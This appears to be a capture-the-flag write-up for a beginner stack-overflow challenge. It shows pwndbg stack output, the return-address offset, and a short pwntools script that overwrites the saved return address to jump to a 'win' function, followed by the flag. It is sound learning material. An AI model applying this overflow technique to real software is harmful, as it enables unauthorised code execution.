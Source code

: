 # wetuwn addwess

## Challenge

> Hijack the retaddr using a stack overflow.

## Walkthrough

```gdb
pwndbg> br *0x00000000004012ab
Breakpoint 1 at 0x4012ab
pwndbg> r
...
─────────────────────────────────────────[ STACK ]─────────────────────────────────────────
00:0000│ rsp 0x7fffffffdcc0 —▸ 0x7ffff7fe4530 (_dl_fini) ◂— push   rbp
01:0008│     0x7fffffffdcc8 ◂— 0x0
02:0010│     0x7fffffffdcd0 —▸ 0x401300 (__libc_csu_init) ◂— endbr64
03:0018│     0x7fffffffdcd8 —▸ 0x401130 (_start) ◂— endbr64
04:0020│     0x7fffffffdce0 —▸ 0x7fffffffddd0 ◂— 0x1
05:0028│     0x7fffffffdce8 —▸ 0x405260 ◂— 0xfbad2488
06:0030│ rbp 0x7fffffffdcf0 —▸ 0x401300 (__libc_csu_init) ◂— endbr64
07:0038│     0x7fffffffdcf8 —▸ 0x7ffff7e2409b (__libc_start_main+235) ◂— mov    edi, eax
...
pwndbg> info address win
Symbol "win" is at 0x401216 in a file compiled without debugging.
```

Looks like the retaddr is at `+0x38` and we need to redirect it to `0x000000401216`

```py
from pwn import *

r = remote('wetuwn-addwess.ctf.maplebacon.org', 32014)
r.setLevel('DEBUG')

r.recvuntil("What's your name?")
r.sendline('A' * 0x38 + '\x16\x12\x40\x00\x00\x00')
r.recvlines(3)
```

## Solve

`maple{r3turn_t0_w1n}`
